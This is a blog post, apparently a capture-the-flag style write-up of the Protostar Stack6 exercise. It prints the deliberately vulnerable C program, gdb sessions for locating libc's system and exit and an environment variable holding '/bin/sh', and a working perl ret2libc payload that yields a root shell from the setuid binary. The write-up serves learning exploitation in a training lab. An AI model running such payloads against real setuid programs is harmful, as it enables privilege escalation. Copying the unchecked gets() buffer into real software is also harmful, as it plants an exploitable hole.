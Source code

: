 ```yaml
---
layout: post
title:  "Protostar Stack6 challenge"
date:   2018-04-22 18:26:36 +0530
categories: security protostar
---
```

[Stack6][stack6-proto-link] exercise has some restrictions on what addresses can we return to. If we try the usual method followed for [Stack5][stack5-proto-link] we're unable to spawn the shell. The source code for `Stack6` is 

{% highlight cpp %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
{% endhighlight %}

The if condition `if((ret & 0xbf000000) == 0xbf000000)` is what prevents us from executing shell-code we keep in our stack.
The address of shellcode we had kept in stack begai=n with `0xbf` making if condition true. Can we not place our shell code some where in stack not staring with `0xbf`. Perhaps thats not possible.
We can check that in gdb
{% highlight nasm %}
user@protostar:~$ gdb /opt/protostar/bin/stack6
(gdb) b main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) r
Starting program: /opt/protostar/bin/stack6 
Breakpoint 1, main (argc=1, argv=0xbffff884) at stack6/stack6.c:27
27	stack6/stack6.c: No such file or directory.
	in stack6/stack6.c
(gdb) info proc map
process 2206
cmdline = '/opt/protostar/bin/stack6'
cwd = '/home/user'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
	0xb7e96000 0xb7e97000     0x1000          0        
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
	0xb7fd9000 0xb7fdc000     0x3000          0        
	0xb7fe0000 0xb7fe2000     0x2000          0        
	0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
	0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
	0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
	0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
	`0xbffeb000 0xc0000000    0x15000          0           [stack]`
(gdb) 
{% endhighlight %}
So memory mapped for stack area all start with `0xbf`. Thus we cannot execute code from our stack.
The challenge mentions ret2libc(return to lib c) which i used for this challenge. [ret2libc][ret2libc-tut-link] provides a good explanation of how this attack works.
I used the method mentioned in previous [tutorial][stack5-tut-link] to find out offset of `RET` from `buffer`. Which comes out to be `80(0x50)` in this case.
Next we find out address of system and exit commands
{% highlight nasm %}
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
{% endhighlight %}
Now as mentioned in [ret2libc][ret2libc-tut-link] tutorial link our payload would be `[A*80][system][exit][cmd]`. `cmd` here will be the string '/bin/sh' or `/bin/bash`. Since `stack6` is a `setuid` program with owner as root, i should get root priviliges when shell is spawned. But after some failed attempts to use `/bin/bash` as cmd i found out that it drops root priviliges. But on trying with `/bin/sh` it did not drop root. Probably because of this [reason][bin-sh-so-link].
Further there are two ways to pass `/bin/sh` to payload. Either through enviroment variable or storing the string in stack memory. Continuing on following the [tutorial][ret2libc-tut-link] i first tried with environment variable. 
Instead of using C program as in tutorial to load /bin/sh to shell enviroment, simply do following in shell 
{% highlight shell %}
user@protostar:~$ export EGG="/bin/sh"
{% endhighlight %}
Then create a C program to get its address
{% highlight cpp%}
user@protostar:~$ cat getenv.c 
int main() {
	char *p = getenv("EGG");
	printf("ptr %p\n", p);
}
user@protostar:~$ ./getenv
ptr 0xbffffa24
{% endhighlight %}
But as mentioned in tutorial/over internet this address changes and depends upon calling program. So i fired up gdb to find actual address of EGG in `stack6` program.
{% highlight nasm %}
user@protostar:~$ gdb /opt/protostar/bin/stack6
(gdb) b main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) x/30s 0xbffffa24-30
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
{% endhighlight %}
Here output shows i could not find `/bin/sh` string. On some previous trials i was able to find the string address as `0xbfffff97` but i was still unable to get shell using it, pointing out that the address was still different that used.
Luckily after some googling to find address of environment variable in a program i can upon this helpful [code][genenvaddr-link] which came to rescue.
{% highlight shell %}
user@protostar:~$ ./getenvaddr EGG /opt/protostar/bin/stack6
EGG will be at 0xbffffa02
{% endhighlight %}
Combining all information found it was time to prepare payload as `perl -e 'print "A"x80 . "\xb0\xff\xec\xb7" . "\xc0\x60\xec\xb7" . "\x02\xfa\xff\xbf"'`
and use it. But initial attempts failed. The shell was being dropped. 
{% highlight shell %}
user@protostar:~$ perl -e 'print "A"x80 . "\xb0\xff\xec\xb7" . "\xc0\x60\xec\xb7" . "\x02\xfa\xff\xbf"'  | /opt/protostar/bin/stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???AAAAAAAAAAAA????`????
user@protostar:~$
user@protostar:~$ perl -e 'print "A"x80 . "\xb0\xff\xec\xb7" . "\xc0\x60\xec\xb7" . "\x02\xfa\xff\xbf"' > p
user@protostar:~$ /opt/protostar/bin/stack6 < p
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???AAAAAAAAAAAA????`????
user@protostar:~$
{% endhighlight %}
This was probably due to some issues with shell-redirection. But on doing it the same was as done was `stack5` i was able to get a root shell.
{% highlight shell %}
user@protostar:~$ perl -e 'print "A"x80 . "\xb0\xff\xec\xb7" . "\xc0\x60\xec\xb7" . "\x02\xfa\xff\xbf"' > p
user@protostar:~$ (cat p;cat) | /opt/protostar/bin/stack6
input path please: 
got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???AAAAAAAAAAAA????`????
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
{% endhighlight %}
So finally we were able to bypass the executable address checking by using ret2libc calls. We used `system` call to `/bin/sh` stored in shell environment.
And `exit` to gracefully exit from program after `system` return to it upon completion. `exit` also expects a parameter got around without passing. It would pick up any junk value after `[cmd]` and use it.

Next we will see how to do this by storing string `/bin/sh` in the stack itself.

[stack6-proto-link]:https://exploit-exercises.com/protostar/stack6/
[stack5-proto-link]:https://exploit-exercises.com/protostar/stack5/
[stack5-tut-link]:https://rawatm.github.io/security/protostar/2018/04/14/protostar-stack5/
[bin-sh-so-link]: https://stackoverflow.com/questions/13209215/bin-sh-does-not-drop-privileges
[genenvaddr-link]: https://gist.github.com/superkojiman/6a6e44db390d6dfc329a